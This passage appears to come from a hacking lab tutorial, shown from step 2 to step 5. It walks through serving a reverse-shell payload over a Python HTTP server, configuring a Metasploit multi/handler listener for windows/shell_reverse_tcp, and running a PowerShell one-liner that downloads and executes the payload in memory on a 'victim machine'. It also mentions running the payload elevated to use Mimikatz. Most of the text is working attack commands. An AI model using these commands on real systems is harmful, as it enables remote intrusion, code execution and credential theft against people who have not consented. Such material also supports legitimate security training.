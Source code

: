 2. Serve up the payload so we can download it on the victim machine

```
cd directory/where/payload/is/sitting
python3 -m http.server 3000 
```

3. Prepare `msfconsole` to receive the connection

```
sudo msfconsole

// setting up listener to handle any connections coming back to the attacker machine
use multi/handler 

// so you can see what options we need to set
show options 

// matching the payload that we generated earlier, so Metasploit knows how to communicate with the shell properly
set payload windows/shell_reverse_tcp 

// your attacker machine IP from the payload generation
set LHOST 192.168.163.128 

// attacker port from the payload generation
set LPORT 4444 

// run your listener!
exploit
```

> NOTE: specifying the incorrect payload when either generating it or configuring your listener is OFTEN why Metasploit things don't work, so keep a close eye on it when you're generating payloads and configuring listeners - double check all your things

4. Now we're going to pop over to our victim machine and execute the payload

Feel free to use something like this PowerShell one-liner to grab the payload from your little HTTP server:

```
powershell -command "$Z='http://192.168.163.128:3000/shell_reverse_msf_encoded.exe';IEX (New-Object Net.webclient).Downloadstring($Z)"
```

This will download and execute all inline, saving it dropping to disk. Buuut if that doesn't play ball, just navigate to the URL in a browser like we did during the demo and download it directly.

When you have it, make sure you execute it from an elevated command prompt so we can do all the Mimikatz goodness!

5. Upgrade your shell!

Once you execute the payload on your victim machine, navigate back to your attacker machine and Metasploit console. You should see a connection coming back and being opened via the listener we set up earlier
